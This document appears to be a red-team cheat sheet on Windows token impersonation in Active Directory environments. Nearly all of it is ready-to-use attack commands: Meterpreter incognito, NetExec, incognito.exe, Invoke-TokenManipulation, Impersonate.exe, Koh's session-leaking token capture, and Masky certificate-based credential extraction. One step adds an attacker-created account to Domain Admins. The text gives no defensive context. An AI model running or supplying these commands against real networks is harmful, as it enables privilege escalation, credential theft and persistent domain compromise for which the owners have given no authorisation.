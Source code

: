 # Token Manipulation

## Tools: Meterpreter , CrackMapExec/Netexec , irs.exe , incognito.exe , masky

#### 1) Meterpreter

 - use incognito

 - impersonate_token DOMAIN\\USER

#### 2) CrackMapExec/Netexec

 - netexec smb IP -u USER -p PASSWORD -M impersonate

#### 3) irs.exe

 - irs.exe list

 - irs.exe exec --pid PID --command COMMAND

#### 4) Incognito.exe

 - .\incognito.exe list_tokens -u

 - ./incognito.exe execute -c "DOMAIN\USER" powershell.exe

### These techniques can give us further privileged ACLs to gain more cleartext credentials or creating persistent mechanisms

## Extract credentials with certificate authentication (ADCS required)

 - masky -d DOMAIN -u USER (-p PASSWORD || -k || -H HASH) -ca CERTIFICATE_AUTHORITY IP

### With this technique, we can perform Lateral movement via NTLM, Kerberos or Certificate.

### List all tokens

##### List all tokens on the machine

    Invoke-TokenManipulation -ShowAll

##### List all unique, usable tokens on the machine

    Invoke-TokenManipulation -Enumerate

### Start a new process with a specific token

##### Token of a user

    Invoke-TokenManipulation -ImpersonateUser -Username "domain\user1"

##### Token of a process

    Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500

## Token impersonation with command execution and user addition

### List available tokens, and find an interesting token ID

    ./Impersonate.exe list

### With only SeImpersonatePrivilege, if a privileged user's token is present on the machine, it is possible to run code on the domain as him and add a new user in the domain (and add him to the Domain Admins by default):

    ./Impersonate.exe adduser <token_id> user1 Password123 <group_to_add_to> \\dc.domain.local

### With SeImpersonatePrivilege and SeAssignPrimaryToken, if a privileged user's token is presents on the machine, it is possible to execute comands on the machine as him:

    ./Impersonate.exe exec <token_id> <command>

## Token impersonation via session leaking

Basically, as long as a token is linked to a logon session (the ReferenceCount != 0), the logon session can't be closed, even if the user has logged off.
AcquireCredentialsHandle() is used with a session LUID to increase the ReferenceCount and block the session release. Then InitializeSecurityContext() and AcceptSecurityContext() are used to negotiate a new security context, and QuerySecurityContextToken() get an usable token.

### Server

##### List logon session
 
    Koh.exe list

##### Monitor logon session with SID filtering

    Koh.exe monitor <SID>

##### Capture one token per SID found in new logon sessions

    Koh.exe capture

### Client part (only available as Cobalt Strike BOF for the moment)

##### List captured tokens

    koh list

##### List group SIDs for a captured token

    koh groups <LUID>

##### Impersonate a captured token by specifying the session LUID

    koh impersonate <LUID>

##### Release all captured tokens

    koh release all

## Tokens and ADCS

With administrative access to a (or multiple) computer, it is possible to retrieve the different process tokens, impersonate them and request CSRs and PEM certificate for the impersonated users.

    .\Masky.exe /ca:<CA_server_FQDN\CA_name> /template:<template_name> /output:./output.txt
